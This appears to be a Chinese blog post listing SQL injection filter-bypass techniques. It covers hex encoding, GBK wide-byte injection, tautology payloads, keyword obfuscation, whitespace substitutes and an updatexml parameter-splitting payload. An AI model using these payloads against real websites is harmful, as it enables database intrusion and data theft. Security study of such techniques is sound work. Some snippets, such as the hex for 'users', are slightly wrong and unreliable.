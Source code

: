 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

## sql注入检测的一些绕过方法  
### 在mysql和mssql中重要的数据库：
- Information_schema数据库：作用是保存所有数据库信息。 
- information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍： 
- table_schema: 记录数据库名；
- table_name: 记录数据表名；
- table_rows: 关于表的粗略行估计；
- data_length : 记录表的大小（单位字节）；
- Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息

### 绕过sql注入检测的技巧:

### 遇到单引号转译 可以考虑使用16进制绕过：
table_name=’users ’——》table_name=0×757365727    
### 当’被转译为 \’ 时可以考虑宽字节注入：
   发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入   
### 避开单引号过滤：
1.输入单引号没反应，尝试输入”  
2.可以使用ascII 替代字符串不必使用单引号：       
- mysql:连接字符串是CONCAT函数,select name=concat(CHAR(97),char(114))   
- Oracle: select name=chr(97)\|\|chr(114)  
- Ms-SQL:select name=char(97)+char(114)

### --注释符被阻止时考虑闭合: 
‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a    
### =号被阻止：  
使用<>（不等于）例：!(table_schema<>database())  
### select 被过滤:  
使用 SeLEct selselectect、%53%45%4c%45%54、se%a0lect来绕过。   
### 空格过滤:  
1.使用注释 /\*foo\*/:   
select/*foo*/uername,password/\*foo\*/from  
2.使用特殊符号代替空格:  
%0b TAB键（垂直）、%a0 空格 、%09 TAB键（水平）、%0a 新建一行、 %0c 新的一页 、%0d return功能 
 
### HPF(http分割注入)
  post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1 ,这个构造语句把中间的password参数给注释掉了

### ps:

在url中使用--注释时，可能会需要使用--+才能成功注释  
and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-）%26)  

